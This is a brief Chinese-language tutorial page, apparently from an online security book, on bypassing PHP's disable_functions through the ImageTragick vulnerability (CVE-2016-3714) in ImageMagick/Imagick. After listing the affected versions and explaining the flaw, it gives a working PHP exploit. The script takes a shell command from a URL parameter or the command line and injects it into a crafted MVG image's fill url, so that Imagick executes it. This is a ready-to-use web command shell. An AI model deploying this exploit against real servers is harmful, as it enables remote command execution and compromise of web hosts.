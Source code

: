> 原文：[http://book.iwonder.run/安全技术/Disable functions/8.html](http://book.iwonder.run/安全技术/Disable functions/8.html)

## 利用 ImageMagick 漏洞绕过（一）

**1.利用条件**

Imagick <= 3.3.0 PHP >= 5.4

**2.基本原理**

ImageTragick（CVE-2016-3714） 漏洞的利用过程非常简单，只要将精心构造的图片上传至使用漏洞版本的 ImageMagick，ImageMagick 会自动对其格式进行转换，转换过程中就会执行攻击者插入在图片中的命令。因此很多具有头像上传、图片转换、图片编辑等具备图片上传功能的网站都可能会中招。

**3.exp**

```
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
   $command = 'id';
}

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?> 
```

